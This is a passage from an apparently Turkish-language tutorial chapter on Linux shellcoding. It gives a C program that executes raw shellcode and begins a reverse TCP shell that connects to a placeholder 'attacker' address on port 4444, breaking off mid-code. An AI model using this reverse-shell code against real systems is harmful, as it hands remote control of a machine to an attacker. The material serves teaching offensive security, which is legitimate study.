 \newpage
\subsection{9. linux shellcoding. Reverse TCP shell kodu}

﷽

![linux shellcoding](./images/14/2021-10-16_11-42.png){width="80%"}          

Önceki bölümde, standart bir shell başlatan bir shellcode yazmıştık. Bu bölümde, Reverse TCP Shellcode yazmayı hedefleyeceğiz.     

### shell kodu kontrol edelim

When testing shellcode, it is nice to just plop it into a program and let it run. We will use the same code as in the first post (`run.c`):           

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

### reverse TCP shell’i

Daha [önceki](https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html) gönderilerden birindeki C kodunu temel alarak reverse TCP shell başlatan bir shellcode oluşturabiliriz.      

Kodu (`shell.c`):
```cpp
/*
shell.c - reverse TCP shell
author: @cocomelonc
demo shell for linux shellcoding example
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "127.0.0.1";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));
```